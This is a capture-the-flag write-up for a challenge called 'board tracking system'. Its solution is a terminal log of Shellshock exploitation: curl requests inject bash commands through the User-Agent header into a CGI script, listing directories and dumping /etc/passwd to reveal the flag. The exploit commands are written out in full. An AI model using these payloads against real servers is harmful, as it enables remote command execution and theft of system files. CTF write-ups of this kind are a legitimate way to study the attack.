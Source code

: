 
# board tracking system

### Question

<img width="491" alt="Screen Shot 2019-03-09 at 11 39 10 AM" src="https://user-images.githubusercontent.com/14992494/54065983-2a46f680-4263-11e9-9fa2-c22a2da67b96.png">

### Solution

<img width="883" alt="Screen Shot 2019-03-09 at 11 40 33 AM" src="https://user-images.githubusercontent.com/14992494/54065984-2a46f680-4263-11e9-8b80-fe8e909522ed.png">
<img width="658" alt="Screen Shot 2019-03-09 at 11 40 57 AM" src="https://user-images.githubusercontent.com/14992494/54065985-2adf8d00-4263-11e9-87f4-1598ff27f867.png">

```
eloiui-MacBookPro:Downloads eloi$ curl -H "user-agent: () { :; }; echo; /bin/bash -c 'ls -al'" http://81.23.11.159:8080/cgi-bin/stats/
total 12
drwxr-xr-x  2 root     root     4096 Mar  8 10:14 .
drwxr-xr-x 29 root     root     4096 Mar  8 10:14 ..
-rwxr--r--  1 www-data www-data  277 Mar  8 20:59 stats

eloiui-MacBookPro:Downloads eloi$ curl -H "user-agent: () { :; }; echo; /bin/bash -c 'pwd'" http://81.23.11.159:8080/cgi-bin/stats/
/usr/lib/cgi-bin

eloiui-MacBookPro:Downloads eloi$ curl -H "user-agent: () { :; }; echo; /bin/bash -c 'cat /etc/passwd'" http://81.23.11.159:8080/cgi-bin/stats/
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Aero{c58b51bee681ba3aa3971cef7aa26696}
```

### Flag

Aero{c58b51bee681ba3aa3971cef7aa26696}

